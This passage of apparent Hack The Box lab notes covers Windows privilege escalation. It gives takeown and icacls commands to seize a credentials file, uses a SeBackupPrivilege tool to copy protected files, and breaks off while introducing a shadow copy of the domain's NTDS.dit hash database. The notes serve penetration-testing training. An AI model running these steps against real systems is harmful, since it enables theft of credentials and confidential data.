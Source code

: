 ```powershell-session
```
We can see that the IT share appears to be owned by a service account and does contain a file `cred.txt` with some data inside it.

We can now use the `takeown` windows binary to take ownership of the file 
```powershell-session
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

#### Modifying the File ACL
We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell-session
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

## Windows Built-in Groups
Windows servers and DCs have built in groups that ship with the os or get built in.

### Backup Operators
`Backup Operators` group. Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents.
Cant copy data using standard copy command, we need to pragmatically copy it specifying the `FILE_FLAG_BACKUP_SEMANTICS`
We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

#### Importing Libraries
```powershell-session
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

#### Verifying SeBackupPrivilege is enabled 
```
Get-SeBackupPrivilege
```
#### Enabling SeBackupPrivilege
```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```
#### Copying a Protected File
```powershell-session
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

### Attacking a Domain Controller - Copying NTDS.dit
The active directory database *NTDS.dit* is a good target as it contains all NLTM hashes for users and objects.
As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

